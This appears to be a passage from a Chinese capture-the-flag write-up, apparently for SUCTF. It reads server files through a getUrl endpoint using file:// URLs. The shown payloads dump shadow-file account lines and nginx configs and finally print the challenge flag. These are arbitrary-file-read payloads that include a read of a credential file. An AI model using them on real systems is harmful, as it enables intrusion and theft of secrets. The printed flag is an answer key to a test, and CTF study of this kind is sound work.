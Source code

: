 ```bash
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
nginx:!:17708:0:99999:7:::
```

查看配置文件

```
getUrl?url=file:////suctf.cc/etc/nginx/nginx.conf
```

![](/pic/66)

查看网站配置文件

```
getUrl?url=file:////suctf.cc/usr/local/nginx/conf/nginx.conf
```

```
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /app/static;
    }
    # location /flag {
    #     alias /usr/fffffflag;
    # }
}
```

提示flag再 /usr/fffffflag 中

```
getUrl?url=file:////suctf.cc/usr/fffffflag
```

```
flag{b692ca82-8292-4582-846a-286b3743f697}
```



**预期解**
black hat 上的所展示的部分字符